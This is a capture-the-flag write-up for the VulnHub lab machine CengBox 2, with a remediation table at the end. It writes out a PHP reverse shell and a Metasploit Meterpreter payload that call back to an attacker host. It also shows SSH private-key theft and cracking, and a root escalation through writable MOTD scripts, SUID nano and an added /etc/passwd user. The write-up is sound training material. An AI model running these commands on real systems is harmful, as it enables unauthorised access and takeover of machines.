



# CengBox: 2 — Writeup

| | |
|-|-|
| **Target IP** | 192.168.1.104 (host-only) |
| **Difficulty** | Intermediate |
| **OS** | Linux |
| **Root Flag** | root.txt (value in screenshot) |
| **Source** | [VulnHub](https://www.vulnhub.com/entry/cengbox-2,486/) |

## Attack Summary

`nmap` → FTP anon (`note.txt` → domain + usernames) → vhost gobuster → Gila CMS (`kevin@ceng-company.vm:admin`) → PHP reverse shell via theme editor → `sudo -u swartz /home/swartz/runphp.sh` → Meterpreter → SSH private key (`mitnick`) → `ssh2john` + `john` (passphrase: `legend`) → writable `/etc/update-motd.d/` → SUID nano → add root user → root

## Methodology

1. Network discovery and port scan
2. FTP anonymous enumeration
3. Virtual host discovery (gobuster vhost)
4. Gila CMS login with default credentials
5. PHP reverse shell via CMS file editor
6. Lateral movement via sudo to swartz
7. Meterpreter session via web_delivery
8. SSH key extraction and passphrase cracking
9. MOTD writable scripts → SUID nano → /etc/passwd manipulation

---

## Step 1: Network Discovery

```bash
sudo netdiscover -i eth1 -r 192.168.1.0/24
nmap -A 192.168.1.104
```

Open ports: **21** (FTP), **22** (SSH), **80** (HTTP)


---

## Step 2: FTP Anonymous Login

```bash
ftp 192.168.1.104
# Username: Anonymous / Password: (blank)
ls
get note.txt
bye
cat note.txt
```

`note.txt` reveals:
- Users: **Aaron** and **Kevin**
- Domain: **ceng-company.vm**
- Hint: default CMS credentials may be in use

Add the domain to `/etc/hosts`:
```bash
echo "192.168.1.104  ceng-company.vm" >> /etc/hosts
```



---

## Step 3: Virtual Host Discovery

```bash
gobuster vhost -u http://ceng-company.vm/ -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
```

Found: **admin.ceng-company.vm** (returns 403 at root, but has content at `/gila/`)

```bash
echo "192.168.1.104  admin.ceng-company.vm" >> /etc/hosts
```

Browse to `http://admin.ceng-company.vm/gila/` → Gila CMS login page.

---

## Step 4: Gila CMS Login

```
Email:    kevin@ceng-company.vm
Password: admin
```

Default credentials work. Dashboard is accessible.


---

## Step 5: PHP Reverse Shell via Theme Editor

In the Gila CMS dashboard, navigate to file manager or theme editor and edit an existing PHP file. Replace contents with a PentestMonkey reverse shell pointing at the attacker machine:

```php
$ip = '192.168.1.112';
$port = 1234;
```

Start listener:
```bash
nc -lvnp 1234
```

Trigger the file in the browser. Upgrade the shell:
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

---

## Step 6: Lateral Movement via Sudo

```bash
sudo -l
# (www-data) NOPASSWD: /home/swartz/runphp.sh
sudo -u swartz /home/swartz/runphp.sh
```

A PHP interactive shell spawns as **swartz**.

---

## Step 7: Meterpreter via web_delivery

On the attacker (Metasploit):
```
use exploit/multi/script/web_delivery
set target 1
set payload php/meterpreter/reverse_tcp
set lhost 192.168.1.112
set lport 8888
exploit
```

Paste the generated PHP snippet into the swartz PHP shell → Meterpreter session opens.

---

## Step 8: SSH Key Extraction and Cracking

```bash
cd /home/mitnick/.ssh
cat id_rsa
cat id_rsa.pub
```

Copy `id_rsa` to attacker machine as `key`, then:

```bash
locate ssh2john
python /usr/share/john/ssh2john.py key > hash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

Passphrase recovered: **legend**

```bash
chmod 600 key
ssh -i key mitnick@192.168.1.104
```



---

## Step 9: MOTD Writable → SUID nano → Root

```bash
# Check MOTD scripts
ls -la /etc/update-motd.d/
# All writable! Add command to run on next SSH login:
echo 'chmod u+s /bin/nano' >> /etc/update-motd.d/00-header
# Re-login to trigger MOTD execution
exit
ssh -i key mitnick@192.168.1.104
ls -la /bin/nano   # now SUID
```

Use the SUID nano to add a root-level user to `/etc/passwd`:

```bash
openssl passwd -1 -salt user3 pass123
# Copy the hash, then:
nano /etc/passwd
# Append: raj:$1$user3$...:0:0:root:/root:/bin/bash
su raj  # password: pass123
id
cat /root/root.txt
```



---

## Lessons Learned

1. **FTP anonymous login** exposes domain names and usernames that enable further attacks
2. **Virtual host enumeration** is essential — services hidden behind virtual hosts are often less hardened
3. **Default CMS credentials** remain a common critical risk
4. **MOTD scripts writable by shell users** are a direct path to root via SUID abuse
5. **Unprotected SSH private keys** in user home directories enable lateral movement and cracking

## Remediation

| Vulnerability | Fix |
|---------------|-----|
| FTP anonymous access | Disable anonymous FTP; use key-based SFTP |
| Default CMS credentials | Change immediately post-install; enforce strong admin passwords |
| sudo NOPASSWD runphp.sh | Remove unnecessary sudo rules; apply principle of least privilege |
| Writable /etc/update-motd.d/ | Set ownership to root; mode 0755 or stricter |
| SSH private key in world-readable location | Store keys with 600 permissions; use passphrases |
